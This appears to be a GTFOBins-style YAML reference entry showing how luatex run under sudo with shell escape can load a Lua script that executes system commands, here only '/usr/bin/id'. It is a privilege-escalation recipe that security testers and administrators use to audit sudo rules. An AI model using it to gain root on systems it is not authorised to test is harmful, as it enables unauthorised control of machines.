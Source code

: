 description: `luatex` allows to call external [`lua`](/gtfobins/lua/) scripts.
functions:
  sudo:
    - code: |
        echo '\documentclass{article} \usepackage{luacode} \begin{document} \def\foo{\directlua{dofile("runfunc.lua")}} \foo \end{document}' > file.tex
        echo 'os.execute("/usr/bin/id")' > runfunc.lua
        luatex --interaction=nonstopmode --shell-escape file.tex
